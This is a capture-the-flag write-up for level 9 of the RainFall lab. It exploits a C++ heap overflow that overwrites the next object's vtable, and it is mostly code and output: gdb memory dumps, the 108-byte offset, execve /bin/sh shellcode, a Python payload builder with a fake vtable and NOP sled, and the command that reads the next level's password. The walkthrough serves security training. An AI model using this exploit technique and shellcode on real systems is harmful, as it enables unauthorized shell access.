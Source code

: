 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.


We can override the vtable of the next object, the table that contains the object's methods,  replacing it with addresses to a  shell code in a  memory region we control, also adding a nope slide for extra piece of mind.
Let's get the address of the first object and check what it looks like in memory
```shell
level9@RainFall:~$ ltrace ./level9 ""
_Znwj(108, 0xbffff7d4, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)               = 0x804a078
[...]
+++ exited (status 11) +++
level9@RainFall:~$ gdb ./level9
(gdb) b *main+164
(gdb) r "BBBBaaaaBBBBaaaaa"
Breakpoint 1, 0x08048698 in main ()
(gdb) x/60x 0x804a008
0x804a008:      0x08048848      0x42424242      0x61616161      0x42424242
0x804a018:      0x61616161      0x00000061      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
0x804a0e8:      0x00000000      0x00000000      0x00000000      0x00000000
```
Above we can see the vtable at the start of the first and second object, we can also see the value of `int x` near it's end.

We can confirm that the first object will overflow on the second's vtable after 108 bytes
```shell
(gdb) r $(python -c 'print "a"*108')
Starting program: /home/user/level9/level9 $(python -c 'print "a"*108')
Breakpoint 2, 0x08048698 in main ()
(gdb) x/40x 0x804a008
0x804a008:      0x08048848      0x61616161      0x61616161      0x61616161
0x804a018:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a028:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a038:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a048:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a058:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a068:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000

```

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

t's now time to craft our exploit, we'll write our own vtable only consisting of the address of our shellcode that's coming up next, followed by a nop slide and then our shell code, right before the address of our fake vtable overwrighting the next one's.

It will look like this:
our fake vtable (start of shellcode `0x804A05C` * 8) -> 32bytes | padding (NOP `0x90`*48) -> 48bytes | shellcode -> 28 bytes | = 108 bytes, replacing 2nd obj vtable with ours at `0x804a00C`


Let's put it together in python
```python
#!/usr/bin/python
destination="\x0c\xa0\x04\x08"
start_of_shellcode="\x5c\xa0\x04\x08"
vtable=start_of_shellcode*8
padding="\x90"*0x30
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print vtable + padding + shellcode + destination
```

```shell
# On host machine:
scp -P 4242 Resources/exploit.py level9@$RAIN:/tmp/exploit.py

# On the Rainfall VM:
chmod +x /tmp/exploit.py
./level9 $(/tmp/exploit.py)
$ cat /home/user/bonus0/.pass
[redacted]
```
